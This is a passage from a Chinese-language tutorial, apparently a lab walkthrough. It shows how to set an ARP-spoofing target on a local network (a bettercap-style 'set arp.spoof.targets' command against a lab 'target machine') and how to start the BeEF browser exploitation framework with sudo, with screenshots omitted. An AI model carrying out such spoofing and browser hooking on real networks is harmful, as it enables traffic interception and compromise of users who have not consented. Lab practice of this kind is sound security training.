 **注意：这里需要加 sudo , 因为它要调用网卡这样的硬件，需要 root 权限，如果不加 sudo 的话，会得到这样的提示。**

![](/img/2021-02-02_14-20.png)


然后设置 arp 欺骗的目标：
```txt
set arp.spoof.targets 192.168.101.43
```

**这里设置的 targets 是靶机的地址哦**

接下来启动 beef ，和上面说的一样要加 `sudo` 。
```bash
$ sudo beef
```

得到返回：

![](/img/2021-02-02_14-28.png)

